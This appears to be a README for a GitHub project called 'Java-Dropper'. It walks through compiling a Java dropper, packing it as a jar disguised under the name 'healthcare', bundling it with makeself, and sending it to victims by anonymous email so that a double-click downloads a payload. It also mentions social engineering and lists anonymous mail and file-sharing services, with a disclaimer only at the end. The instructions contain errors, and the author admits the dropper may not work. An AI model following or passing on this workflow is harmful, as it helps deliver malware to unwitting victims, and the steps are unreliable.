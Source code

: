 # Java-Dropper
![vx](https://art.vx-underground.org/art/c92ebe07-2ac3-4dce-8168-b418e20c1579.png)
No more clumsy Payload transfer methods, when you have the Ultimate droppers available.
This is simply a dropper which helps in delivering the payload to your victim. Let's go through the process step-by-step.

# Requirements
![logo](https://cdn.icon-icons.com/icons2/2699/PNG/512/java_logo_icon_168609.png)
1. JDK==17.0.10 (obvious)
- It comes preinstalled on most of the linux distros, If you don't have it, install it.
- Check by running the command: ```java --version```
2. Install **makeself**
- ```sudo apt install makeself``` and once it's done, we're good to go.
3. Assuming that your are testing this dropper on another victim machine which is **yours**.
  - Boot up your Vmware/Virtualbox and load your victim machine but do not power it on yet.

# Simple Instructions

1. Create a dir ```mkdir dropper_file```  which we will be using to store all the necessary files.
2. Download the **Dropper.java** file from this repo and store it in the above created dir, make necessary changes to it such as changing the payload and victim's default download path.
3. Run ```javac Dropper.java```, It will make a class file upon compilation. You'll get a class file and keep it with you.
4. create a jar file: ```jar cvfe Dropper.jar healthcare Dropper.class```
5. Make a shell script: ```touch run.sh``` open the file
   ```pluma run.sh``` and include the following in that script.
```
!#/bin/bash
 java -jar dropper.jar
```

  - The ``run.sh`` serves as a supporting script to make the jar file executed immediately, save the file in the same direcory.

6. run
```makeself --notemp /home/<user>/dropper_files /home/<user>/dropper_files/dropper_installer.sh "healthcare" ./run.sh```

you can name the jar file as you wish, i'm using healthcare as the name, replace the user with your actual sys user and run the command. If you have done everything correctly, you can see the ```Dropper.jar``` file.

<a href="https://ibb.co/3v3vxbL"><img src="https://i.ibb.co/xYkYnbR/show-dropper.jpg" alt="show-dropper" border="0"></a>

- once that's done, we can now transfer this ***Dropper.java** to the victim's machine by using any anonymous mail or by any other means,I suggest using temporary mails if you're doing on a real victim which i highly suggest you to not do. After the victim double clicks on the jar file It should automatically execute the files we placed inside and download the payload to the specified directory in victim's machine. I can show how an attacker can meticulously craft a social engineering attack on the victim and make him/her click on the unsuspected file, which in returns downloads the payload into the machine. ***There seems to be an issue from the SXF option in Jar file, I'll make the necessary changes and update the repository. Untill then the java dropper may not work properly.***
# Some resources that might help
> - [File.Io](https://www.file.io/)
> - [AnonMail](https://anonymous-mail.maildim.com/)
> - [Upload Anonymously](https://anonsharing.com/)
> - Thanks to VX-UnderGround for their awesome art.
[VX-UG](https://art.vx-underground.org/index.html)

# Disclaimer
All this is done to show how the whole malware drop scenarios work, don't use this to send the payloads to real victims, which will land you in bad position. While it may seem cool to do, It's not. It is completely unethical and makes the victim cause damage. I hold no responsiblity and liability in such cases. I want you to know how this works by testing this stuff on your own system. 
